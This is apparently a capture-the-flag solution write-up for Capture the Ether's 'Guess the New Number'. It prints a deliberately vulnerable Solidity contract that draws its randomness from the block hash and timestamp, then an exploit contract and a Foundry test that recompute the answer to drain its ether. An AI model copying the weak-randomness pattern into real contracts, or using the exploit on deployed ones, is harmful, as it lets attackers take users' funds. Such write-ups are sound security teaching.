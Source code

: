 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Guess the New Number - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Guess the New Number CTF
---
```


# Capture the Ether (RareSkills Repo) - Guess the New Number - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessNewNumber {
    constructor() payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable returns (bool pass) {
        require(msg.value == 1 ether);
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));

        if (n == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Fail to send to msg.sender");
            pass = true;
        }
    }
}
```

## Solution

Since both `blockhash(block.number - 1)` and `block.timestamp` can also be accessed by an attacker contract, we can reproduce `answer` inside an attacker contract using the exact same code:

_GetNewNumber.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessNewNumber {
    ...
}

contract ExploitContract {
    GuessNewNumber public guessNewNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        return answer;
    }
}
```

_GetNewNumber.t.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/GuessNewNumber.sol";

contract GuessNewNumberTest is Test {
    GuessNewNumber public guessNewNumber;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        guessNewNumber = (new GuessNewNumber){value: 1 ether}();
        exploitContract = new ExploitContract();
    }

    function testNumber(uint256 blockNumber, uint256 blockTimestamp) public {
        // Prevent zero inputs
        vm.assume(blockNumber != 0);
        vm.assume(blockTimestamp != 0);
        // Set block number and timestamp
        vm.roll(blockNumber);
        vm.warp(blockTimestamp);

        // Place your solution here
        uint8 answer = exploitContract.Exploit();
        _checkSolved(answer);
    }

    function _checkSolved(uint8 _newNumber) internal {
        assertTrue(guessNewNumber.guess{value: 1 ether}(_newNumber), "Wrong Number");
        assertTrue(guessNewNumber.isComplete(), "Balance is supposed to be zero");
    }

    receive() external payable {}
}
```

